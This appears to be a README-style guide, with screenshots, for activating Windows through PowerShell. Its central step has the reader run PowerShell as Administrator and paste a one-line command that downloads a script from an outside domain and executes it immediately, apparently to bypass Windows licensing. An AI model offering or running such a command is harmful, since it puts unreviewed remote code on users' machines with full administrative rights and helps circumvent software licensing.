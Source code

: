 Step 1🤨
All you need to do is hit the start or search icon and type the "PowerShell" in the search box.

Another easy way: 2
![image](https://github.com/user-attachments/assets/38c804c2-4b02-4d68-94ec-182a7f5c21c2)





Step 2😏
Next, you must click on the Run as Administrator to start PowerShell, in this case we need to run with administrative privileges.
![image](https://github.com/user-attachments/assets/f1dee4de-a6b9-4812-9a64-8044fe60e4bd)





Step 3😀
Now, after a brief pause to allow for execution, please copy this line:

             irm https://get.activated.win | iex

Step 4😆
Now paste it (with right-click) and hit the enter key. In the newly opened window, there are several options available, from which we must select option 1 and wait a few seconds to complete.
![image](https://github.com/user-attachments/assets/f09cfe63-5f91-4f7d-81c8-9ff87b75d120)





😀Congratulations,
your Windows has been activated.
now you can hit the enter key to exit the CMD and close PowerShell and check windows Activation menu❤❤❤ 
